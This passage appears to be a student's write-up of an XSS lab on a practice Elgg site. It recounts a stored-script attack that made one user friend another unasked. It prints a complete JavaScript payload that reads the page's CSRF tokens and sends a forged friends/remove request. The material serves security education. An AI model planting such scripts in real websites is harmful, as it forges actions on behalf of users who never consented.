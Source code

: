 ![attack](Task4-1-1.PNG)

Then I made sure Samy and Alice are not friends. (To save a little space, I have provided the [Link](Task4-1-2.PNG) if you would like to see it)
Next I searched for [Samy as Alice](Task4-1-3.png) and viewed [Samy's profile](Task4-1-4.PNG). When I go back to view Alice's friend list:

![success](Tassk4-1-5.PNG)
We can see that Samy is a friend of Alice but Alice never had that request. When I logged in as Samy, I could see that Samy and Alice had made Samy a friend. Since we never said in the code that Samy should not add himeself as a friend, it happened when we viewed Samy's profile as Samy.

##### Task 4.2:
This time, we are trying to see if Editor mode is going to launch the attack. Before I tried this, I deleted everyone as a friend and the original code. As we can see, [no one](Task4-2-1.PNG) is Samy's friend and [no one](Task4-2-2.PNG) has made friend with Samy. Then I included the same code in the editor mode:
```
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    var sendurl="http://www.xsslabelgg.com/action/friends/remove" + "?friend=59" + token + ts;  

    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```